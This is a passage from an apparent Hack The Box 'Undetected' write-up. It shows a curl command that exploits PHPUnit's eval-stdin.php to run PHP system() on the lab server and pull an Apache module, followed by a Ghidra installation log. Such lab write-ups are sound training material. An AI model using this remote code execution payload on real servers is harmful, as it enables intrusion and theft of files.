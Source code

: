 So mod_reader.so is worth looking at, let's pull it over to Kali:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /usr/lib/apache2/modules/mod_reader.so');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output mod_reader.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 34859    0 34800  100    59   176k    307 --:--:-- --:--:-- --:--:--  177k
```

## Reversing With Ghidra

Time to fire up Ghidra and poke around inside the file. [Here](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html) is a useful post if you aren't sure how to use Ghidra.

I haven't got it installed on this VM, but before adding note this needs around 800mb of space to install:

```sh
┌──(root💀kali)-[~/htb/undetected]
└─# apt install ghidra        
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  ghidra-data openjdk-11-jdk-headless openjdk-11-jre openjdk-11-jre-headless
The following NEW packages will be installed:
  ghidra ghidra-data openjdk-11-jdk-headless
The following packages will be upgraded:
  openjdk-11-jre openjdk-11-jre-headless
2 upgraded, 3 newly installed, 0 to remove and 587 not upgraded.
Need to get 613 MB of archives.
After this operation, 1,282 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jre amd64 11.0.14+9-1 [175 kB]
Get:2 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jre-headless amd64 11.0.14+9-1 [37.3 MB]
Get:3 https://http.kali.org/kali kali-rolling/main amd64 openjdk-11-jdk-headless amd64 11.0.14+9-1 [214 MB]
Get:4 https://archive-4.kali.org/kali kali-rolling/main amd64 ghidra amd64 10.1.2-0kali2 [282 MB]
Get:5 https://archive-4.kali.org/kali kali-rolling/main amd64 ghidra-data all 9.2-0kali2 [79.1 MB]
Fetched 613 MB in 15min 39s (653 kB/s)
(Reading database ... 300882 files and directories currently installed.)
Preparing to unpack .../openjdk-11-jre_11.0.14+9-1_amd64.deb ...
<SNIP>
Setting up ghidra-data (9.2-0kali2) ...
Setting up ghidra (10.1.2-0kali2) ...
Processing triggers for kali-menu (2021.4.2) ...
Processing triggers for desktop-file-utils (0.26-1) ...
Processing triggers for hicolor-icon-theme (0.17-2) ...
Processing triggers for mailcap (3.70+nmu1) ...
```
